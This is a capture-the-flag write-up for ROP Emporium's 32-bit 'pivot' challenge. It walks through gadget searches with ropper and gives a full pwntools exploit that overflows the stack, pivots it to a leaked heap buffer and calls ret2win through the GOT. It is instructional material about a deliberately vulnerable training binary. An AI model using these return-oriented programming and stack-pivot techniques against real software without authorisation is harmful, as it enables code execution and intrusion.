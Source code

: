 # pivot - 32 Bit
Program execution:
```
pivot by ROP Emporium
x86

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0xf7d23f10
Send a ROP chain now and it will land there
> <input_1_here>
Thank you!

Now please send your stack smash
> <input_2_here>
Thank you!

Exiting
```
Unlike the prior challenges there are 2 prompts for input, with the intent being we can pivot from one part of the stack to the other.

Run checksec: `checksec ./pivot32`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
```
Again, `main` calls `pwnme`.:
```
08048750  int32_t pwnme(size_t arg1)

08048761      void var_2c
08048761      memset(&var_2c, 0, 0x20)
08048771      puts(str: "Call ret2win() from libpivot")
08048784      printf(format: "The Old Gods kindly bestow upon …", arg1)
08048794      puts(str: "Send a ROP chain now and it will…")
080487a4      printf(format: &data_8048994)
080487b9      read(fd: 0, buf: arg1, nbytes: 0x100)
080487c9      puts(str: "Thank you!\n")
080487d9      puts(str: "Now please send your stack smash")
080487e9      printf(format: &data_8048994)
080487fc      read(fd: 0, buf: &var_2c, nbytes: 0x38)
08048816      return puts(str: "Thank you!")
```
The first `read` (080487b9) will read in 0x100 bytes so this will be our larger ROP chain. The second `read` (080487fc) will only read in 0x38 bytes which won't be enough for a full chain, so this is just for stack smashing so we can pivot to the first `read` buffer.
Our second buffer is offset 0x28 down from our `ebp` or 0x2c from the saved `eip` return address as indicated by BinaryNinja's default variable naming `&var_2c`. This also means we can only write 0xC additional bytes after the padding.

Notice that `pwnme`'s parameter `arg1` is used for our larger chain. Luckily the first `printf` (08048784) leaks this address for us which makes pivoting much easier.

In order to call `ret2win` which resides in `libpivot32.so`, we need to get the `.got.plt` entry for `foothold_function` (also in `libpivot32.so`) and then add the offset difference between the two functions, to get the actual address of `ret2win`.

Technically we don't actually **need** to pivot to the larger buffer. What I mean by this, is the following would be a simple solution

1. Enter garbage to first buffer.
2. Enter a payload of 0x2c padding, `foothold_function` `.plt` address and `pwnme` address to return to.
3. Enter garbage to first buffer.
4. Enter a payload of 0x2c padding, `puts` `.plt` address, `pwnme` address to return to, and `foothold_function` `.got.plt` address to print the contents of using `put`.
5. Enter garbage to first buffer.
6. Enter a payload of 0x2c padding, and `ret2win` address calculated using the `foothold_function` actual address and offset difference.

This does require `pwnme` to run 3 times, but it's a pretty straightforward solution that doesn't need much thinking.

But, to keep in the spirit of the challenge that wants us to do a pivot from stack to heap (since `malloc` was used for the larger buffer), let's find some proper gadgets to use. We'll start by looking for stack pivoting gadgets.

`ropper -f pivot32 --stack-pivot`:
```
0x080485f2: add esp, 0x10; leave; ret;
0x08048811: add esp, 0x10; nop; leave; ret;
0x08048895: add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret;
0x080484a6: add esp, 8; pop ebx; ret;
0x0804861e: ret 0xeac1;
0x0804882e: xchg eax, esp; ret;

6 gadgets found
```
`xchg eax, esp` will do us just nicely. But we need a way to get the heap address into eax, so that it can be swapped with `esp` and then the program will refer to the heap instead of stack when looking for the next `eip` to jump to.

`ropper -f pivot32  --search 'pop eax'`:
```
[INFO] File: pivot32
0x0804882c: pop eax; ret;
```

Easy peasy, so our stack smashing payload will look like
```python
payload = b'A' * (0x28 + 0x4)   # padding
payload += p32(0x0804882c)      # pop eax; ret;
payload += p32(arg1)            # address that was leaked for us
payload += p32(0x0804882e)      # xchg eax, esp; ret;
```

Now to make our larger rop chain. Let's see if it's possible to dynamically call an arbitrary function pointer.
`ropper -f pivot32  --search 'call'`:
```
[INFO] File: pivot32
0x0804880c: call 0x500; add esp, 0x10; nop; leave; ret;
0x08048827: call 0x510; pop eax; ret;
0x0804881d: call 0x520; sub esp, 0xc; push 1; call 0x510; pop eax; ret;
0x0804859d: call 0x530; hlt; mov ebx, dword ptr [esp]; ret;
0x080484a1: call 0x560; add esp, 8; pop ebx; ret;
0x0804865f: call 0x5d0; mov byte ptr [0x804a040], 1; leave; ret;
0x08048592: call dword ptr [eax + 0x51];
0x0804858b: call dword ptr [eax - 0x73];
0x080485f0: call eax;
0x080485f0: call eax; add esp, 0x10; leave; ret;
0x0804863d: call edx;
0x0804863d: call edx; add esp, 0x10; leave; ret;
```

So looks like we would be able to do so with `eax` or `edx` so we need to get the sum of the `.got.plt` value of `foothold_function` and the offset difference between `foothold_function` and `ret2win` into one of these registers. We know we're going to need a gadget like `mov ???, [???]` to get the `.got.plt` so we'll check for that to work out the best register to use.
`ropper -f pivot32  --search 'mov ???, [???]'`:
```
[INFO] File: pivot32
0x08048830: mov eax, dword ptr [eax]; ret;
0x080485a3: mov ebx, dword ptr [esp]; ret;
```

Well that simplifies things - we'll need to use `eax` (0x08048830) which is convenient since we already have a `pop eax` gadget to provide the pointer to `.got.plt`.
We'll now need an `add` gadget so we can add the offset to `ret2win`.
`ropper -f pivot32  --search 'add eax'`:
```
[INFO] File: pivot32
0x08048665: add eax, 0x804a040; add ecx, ecx; ret;
0x08048833: add eax, ebx; ret;
```

We can add the contents of `ebx` to `eax` (0x08048833) so now we just need a way of loading data into `ebx`.
`ropper -f pivot32  --search 'pop ebx'`:
```
[INFO] File: pivot32
0x08048898: pop ebx; pop esi; pop edi; pop ebp; ret;
0x080484a9: pop ebx; ret;
```
And we have one such gadget (0x080484a9). So this means we'll be all set to get the address of `ret2win` into `eax` allowing us to use the `call eax` gadget (0x080485f0) we found earlier.

And altogether we get the final exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./pivot32"
LIB_PIVOT = "./libpivot32.so"
p = process(PROG_NAME)
elf = p.elf
lib = ELF(LIB_PIVOT)

if args.ATTACH:
    gdb.attach(p, '''break main''')

pop_eax_addr = 0x0804882c           # pop eax; ret;
xchg_eax_esp_addr = 0x0804882e      # xchg eax, esp; ret;
mov_eax_ptr_eax_addr = 0x08048830   # mov eax, dword ptr [eax]; ret;
pop_ebx_addr = 0x080484a9           # pop ebx; ret;
add_eax_ebx_addr = 0x08048833       # add eax, ebx; ret;
call_eax_addr = 0x080485f0          # call eax;

# leak heap address
p.recvuntil(b': ')
heap_pivot_addr = p.recvline().rstrip()
heap_pivot_addr = int(heap_pivot_addr, 16)

# need to call foothold_function once to populate its GOT
# entry correctly
main_payload = p32(elf.plt['foothold_function'])
main_payload += p32(pop_eax_addr)
main_payload += p32(elf.got['foothold_function'])
main_payload += p32(mov_eax_ptr_eax_addr)
main_payload += p32(pop_ebx_addr)
# add diff between ret2win and foothold_function offsets to
# the real address of foothold_function will get us the real
# address of ret2win
main_payload += p32(lib.symbols['ret2win'] - lib.symbols['foothold_function'])
main_payload += p32(add_eax_ebx_addr)
main_payload += p32(call_eax_addr)

p.recvuntil(b'> ')
p.sendline(main_payload)

smash_payload = b'A' * (0x28 + 0x4)
smash_payload += p32(pop_eax_addr)
smash_payload += p32(heap_pivot_addr)
# set stack pointer to our heap address
smash_payload += p32(xchg_eax_esp_addr)

p.recvuntil(b'> ')
p.sendline(smash_payload)

p.interactive()
```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```
